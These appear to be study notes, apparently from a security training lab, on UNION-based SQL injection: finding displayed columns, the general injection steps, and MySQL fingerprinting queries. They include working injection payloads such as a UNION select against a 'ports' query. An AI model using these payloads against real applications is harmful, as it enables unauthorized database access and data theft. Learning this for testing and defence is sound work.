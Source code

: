 #### Location of Injection
- **Identify Displayed Columns**: Use numbers as junk data to see which columns are printed.
  ```sql
  cn' UNION select 1,2,3,4-- -
  ```
  - Only columns `2`, `3`, and `4` are displayed.

- **Replace with Real Data**: Test with actual data to confirm display.
  ```sql
  cn' UNION select 1,@@version,3,4-- -
  ```
  - `@@version` will display the database version.

### Steps to Union Injection
1. **Initial Test for Vulnerability**:
   - Inject single quote (`'`).
2. **Detect Number of Columns**:
   - Use `ORDER BY` or `UNION` to find the number of columns.
3. **Identify Displayed Columns**:
   - Inject numbers (`1, 2, 3...`) to see which columns are displayed.
4. **Replace with Real Data**:
   - Use SQL queries in identified columns to get desired data.

### Example
- **Original Query**:
  ```sql
  SELECT * FROM ports WHERE port_code = 'cn';
  ```
- **Union Injection**:
  ```sql
  cn' UNION select 1,@@version,3,4-- -
  ```
  - Displays the database version.

---

# Database Enumeration 

## MySQL Fingerprinting

- **Identify DBMS Type**: Helps determine the right queries to use.

- **Fingerprint MySQL**:
  - `SELECT @@version`:
    - **Purpose**: Identifies the version of the MySQL database.
    - **Expected Output**: MySQL version, e.g., `10.3.22-MariaDB-1ubuntu1`.
    - **Wrong Output**: Returns MSSQL version if it's MSSQL, or an error if it's another DBMS.
  
  - `SELECT POW(1,1)`:
    - **Purpose**: Simple mathematical operation to confirm MySQL.
    - **Expected Output**: `1`.
    - **Wrong Output**: Returns an error with other DBMS.
  